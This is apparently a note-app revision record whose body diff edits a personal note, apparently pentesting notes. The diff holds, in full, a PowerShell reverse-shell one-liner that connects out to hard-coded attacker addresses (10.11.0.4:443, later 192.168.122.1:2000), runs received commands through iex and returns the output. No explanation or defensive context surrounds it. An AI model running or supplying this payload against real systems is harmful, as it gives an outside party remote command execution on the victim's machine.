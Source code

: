 id: 62bafe0627994e90b55ae3c4b712b5c4
parent_id: 49885df17fa54bec85c972993a603005
item_type: 1
item_id: 1a72f4e7464d467d810fc01a3adf9ed0
item_updated_time: 1643603171347
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"tream();\"],[-1,\"\\\\\"],[0,\"[byte\"],[-1,\"\\\\[\\\\]\\\\\"],[1,\"[]\"],[0,\"]$bytes \"]],\"start1\":294,\"start2\":294,\"length1\":27,\"length2\":23},{\"diffs\":[[0,\" ';$sendbyte = (\"],[-1,\"\\\\\"],[0,\"[text.encoding\\\\]\"]],\"start1\":565,\"start2\":565,\"length1\":33,\"length2\":32},{\"diffs\":[[0,\" ([text.encoding\"],[-1,\"\\\\\"],[0,\"]::ASCII).GetByt\"]],\"start1\":579,\"start2\":579,\"length1\":33,\"length2\":32},{\"diffs\":[[0,\"):\\\n\\\n\"],[-1,\"powershell -exec bypass -c \\\"$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443); $stream = $client.GetStream(); \\\\[byte\\\\[\\\\]\\\\]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = (\\\\[text.encoding\\\\]::ASCII ).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\\\"\\\n\\\n\"],[0,\"`pow\"]],\"start1\":779,\"start2\":779,\"length1\":545,\"length2\":8},{\"diffs\":[[0,\"t('1\"],[-1,\"7\"],[1,\"9\"],[0,\"2.16\"],[-1,\".6.2',444\"],[1,\"8.122.1',2000\"],[0,\");\"],[1,\" \"],[0,\"$str\"]],\"start1\":852,\"start2\":852,\"length1\":24,\"length2\":29},{\"diffs\":[[0,\"ent.GetStream();\"],[1,\" \"],[0,\"[byte[]]$bytes =\"]],\"start1\":891,\"start2\":891,\"length1\":32,\"length2\":33},{\"diffs\":[[0,\"= 0..65535|%{0};\"],[1,\" \"],[0,\"while(($i = $str\"]],\"start1\":923,\"start2\":923,\"length1\":32,\"length2\":33},{\"diffs\":[[0,\"-ne 0) {\"],[-1,\";\"],[1,\" \"],[0,\"$data = \"]],\"start1\":992,\"start2\":992,\"length1\":17,\"length2\":17},{\"diffs\":[[0,\"g($bytes,0, $i);\"],[1,\" \"],[0,\"$sendback = (iex\"]],\"start1\":1066,\"start2\":1066,\"length1\":32,\"length2\":33},{\"diffs\":[[0,\" | Out-String );\"],[1,\" \"],[0,\"$sendback2 = $se\"]],\"start1\":1110,\"start2\":1110,\"length1\":32,\"length2\":33},{\"diffs\":[[0,\"endbyte.Length);\"],[1,\" \"],[0,\"$stream.Flush()}\"]],\"start1\":1264,\"start2\":1264,\"length1\":32,\"length2\":33},{\"diffs\":[[0,\"e()\\\"\"],[-1,\" \"],[0,\"`\"],[1,\"\\\n\"],[0,\"\\\n\\\nUR\"]],\"start1\":1310,\"start2\":1310,\"length1\":10,\"length2\":10},{\"diffs\":[[0,\"ows\\\n\"],[-1,\"\\\n`powershell -nop -c \\\"$client = New-Object System.Net.Sockets.TCPClient('192.168.122.1',2000); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) { $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()};$client.Close()\\\"`\"]],\"start1\":1383,\"start2\":1383,\"length1\":537,\"length2\":4}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-31T04:33:37.775Z
created_time: 2022-01-31T04:33:37.775Z
type_: 13